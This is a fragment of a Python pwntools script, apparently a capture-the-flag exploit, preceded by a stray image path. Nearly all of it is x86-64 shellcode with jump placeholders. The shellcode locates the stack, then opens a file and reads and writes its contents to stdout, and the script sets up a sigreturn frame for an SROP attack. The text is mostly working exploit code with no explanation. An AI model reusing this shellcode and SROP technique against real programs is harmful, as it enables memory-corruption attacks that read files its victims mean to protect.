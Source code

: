 ```py
        xor eax,eax
        mov al,SYS_write
        nop;nop
        {jmp_3}

        add rsi,rsp
        syscall
        nop
        {jmp_3}
                
        cmp rax,0x0
        {jl_beginning}  # jump to the getStackAddr if theres an error 
        {jmp_3}


    foundStackInRSI:
        mov rsp,rsi
        mov al,SYS_open # rax is gonna be 0x10
        nop
        {jmp_3}

        push 0
        push rbx
        xor esi,esi
        nop
        {jmp_3}
        
        mov rdi,rsp
        syscall
        nop
        {jmp_3}
        
        mov edi,eax
        xor edx,edx
        mov dl,0x40
        {jmp_3}

    read:
        mov rsi,rsp
        xor eax,eax
        nop
        {jmp_3}

        syscall
        mov dil,0x1
        nop
        {jmp_3}

        mov rsi,rsp
        mov al,SYS_write
        nop
        {jmp_3}

        xor edx,edx
        mov dl,0x40
        syscall
        nop;nop;
""")

frame           = SigreturnFrame(kernel='amd64')
frame.rax       = constants.SYS_write
frame.rsp       = 0x20000                           # step to jump . since the stack is 0x21 pages long I figured it'd be faster
```